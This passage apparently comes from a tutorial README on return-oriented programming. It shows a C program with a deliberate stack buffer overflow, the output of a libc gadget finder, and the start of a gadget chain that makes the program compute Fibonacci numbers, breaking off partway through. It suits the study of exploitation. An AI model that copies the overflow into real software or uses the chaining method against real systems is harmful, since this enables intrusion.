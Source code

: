 ```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	unsigned char buf[1];
	read(0, buf, 2048);
	printf("%c\n", buf[0]);
	return 0;
}
```

Obviously any input greater than 1 character will be possible to create
a Segmentation fault. Since the program is compiled with `gcc`, we can
notice that it is linked with `libc`:

```
astojanov@debian-vbox:~/workspace/fROP$ ldd dummy
	linux-gate.so.1 =>  (0xb7fe4000)
	libc.so.6 => /lib/i686/cmov/libc.so.6 (0xb7e97000)
	/lib/ld-linux.so.2 (0xb7fe5000)
```

In order to craft the attack, gadgets obtained from libc are used. The
simplest approach to find those gadgets is to search for `ret` (`c3`)
blocks, and then go backwards to find proper instructions. In the
current version of `libc` I was able to extract 18419 gadgets:

```
astojanov@debian-vbox:~/workspace/crash/tools/gadgets$ ./gadgets -i 2 -t /lib/i686/cmov/libc.so.6
G: 0xb7ea3830: hexa:"cd 80 |c3" text:"int	$0x80 ; ret	"
G: 0xb7ea3841: hexa:"1c 24 |c3" text:"sbb	$0x24, %al ; ret	"
G: 0xb7ea3840: hexa:"8b 1c 24 |c3" text:"movl	(%esp), %ebx ; ret	"
G: 0xb7ea38b3: hexa:"00 00 |c3" text:"addb	%al, (%eax) ; ret	"
G: 0xb7ea38af: hexa:"8d 81 58 08 00 00 |c3" text:"leal	0x858(%ecx), %eax ; ret	"
G: 0xb7ea38ca: hexa:"5d |c3" text:"pop	%ebp ; ret	"
G: 0xb7ea38c5: hexa:"08 83 40 04 01 5d |c3" text:"orb	%al, 0x5D010440(%ebx) ; ret	"
G: 0xb7ea38da: hexa:"5d |c3" text:"pop	%ebp ; ret	"
G: 0xb7ea38d5: hexa:"08 83 68 04 01 5d |c3" text:"orb	%al, 0x5D010468(%ebx) ; ret	"
G: 0xb7ea39ad: hexa:"5d |c3" text:"pop	%ebp ; ret	"
G: 0xb7ea3a19: hexa:"c9 |c3" text:"leave	 ; ret	"
G: 0xb7ea3a89: hexa:"5d |c3" text:"pop	%ebp ; ret	"
G: 0xb7ea3c84: hexa:"5d |c3" text:"pop	%ebp ; ret	"
G: 0xb7ea401b: hexa:"5d |c3" text:"pop	%ebp ; ret	"
```

Now comes the most interesting part, that is chaining the gadgets together to change the behavior of the program. After closely picking gadgets I have generated my Fibonacci attack using gadgets from libc only:

```
# Specify a byte offset to trigger the buffer overflow in the dummy program.

Offset: 13

# Use registers EDX and EDI as numbers F_n and F_(n+1) in the Fibonacci sequence
# Initialize, such that EDX = 1 and EDI = 2

01: 0xB7F6E16D: hexa:"5a |c3"           text:"pop   %edx ; ret"
02: 0x00000001

03: 0xB7F4CD28: hexa:"5f |c3"           text:"pop   %edi ; ret"
04: 0x00000001

# Use ECX as number N, initialize to N = 10 (0xA). Also put junk value in EBX.

```
